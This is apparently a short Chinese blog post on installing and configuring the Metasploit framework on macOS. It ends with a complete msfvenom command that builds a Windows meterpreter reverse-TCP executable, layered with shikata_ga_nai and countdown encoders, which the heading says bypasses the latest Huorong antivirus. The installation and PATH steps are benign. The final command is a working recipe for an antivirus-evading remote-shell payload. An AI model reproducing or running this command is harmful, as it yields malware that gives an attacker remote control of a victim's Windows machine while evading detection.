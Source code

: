 ```yaml
---
layout: post
title:  "Mac环境下msf环境部署"
date:   2020-07-04 12:32:45 +0100
categories:
---
```


# msf安装
Mac官网下载[https://osx.metasploit.com/metasploitframework-latest.pkg](https://osx.metasploit.com/metasploitframework-latest.pkg) 
Win官网下载[https://windows.metasploit.com/metasploitframework-latest.msi](https://windows.metasploit.com/metasploitframework-latest.msi)  

- Mac推荐安装brew，神器!  
# 环境配置  
- brew install ruby  //安装ruby
```
msf在Mac默认安装位置为/opt/metasploit-framework/  
添加PATH环境:export PATH=/opt/metasploit-framework/bin:$PATH  
执行msfconsole启动  //我习惯使用msf启动 可以使用alias将msfconsole设置别名为msf
```

# msfvenom使用  //可Bypass最新版火绒(已提交火绒安全) 
直接上命令  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.7.112 LPORT=1111 -f raw -e x86/shikata_ga_nai -i 8 | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 10 -f exe -o 12345.exe  
